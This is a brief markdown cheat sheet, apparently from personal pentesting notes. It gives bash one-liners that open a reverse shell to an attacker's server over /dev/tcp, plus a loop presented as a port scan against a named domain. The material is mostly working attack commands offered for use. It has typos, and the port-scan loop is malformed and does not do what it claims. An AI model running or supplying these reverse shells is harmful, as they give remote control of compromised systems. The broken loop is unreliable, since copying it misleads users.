 # Shells

>  A shell is software/protocol that provides an interface for an CLI to the underlying OS


### BASH

Bash as it stands, is a (the most popular) shell on its own, but can also provide some really neat tricks to allow for all kinds of shell related goodness, such as a reverse shell.

#### Bash reverse shell

* Spawn a reverse shell back to your server using /dev/tcp 
    > bash -i >& /dev/tcp/<yourserver>/8080 0>&1 
            > e.g  bash -i >& /dev/tcp/10.10.10.1/8080 0>&1
    >  
    > or bassh -c bash -i >& /dev/tcp/<yourserver>/8080 0>&1 
            > e.g bash -i >& /dev/tcp/yourserver.com/443 0>&1
    >  

#### Bash reverse shell port scan

* Using /dev/tcp to do a reverse shell port scan, useful for checking allowed hosts
    > Example looking for open web connection on a remote host when no port scammer is available:
        >  
        > for port in {21..443}; do echo -e "GET / HTTP/1.0\n\n" > bash -i >& /dev/tcp/cr8tiv.space/$port 0>&1 && echo -e "\n[$port is UP]\n"; done
        >  

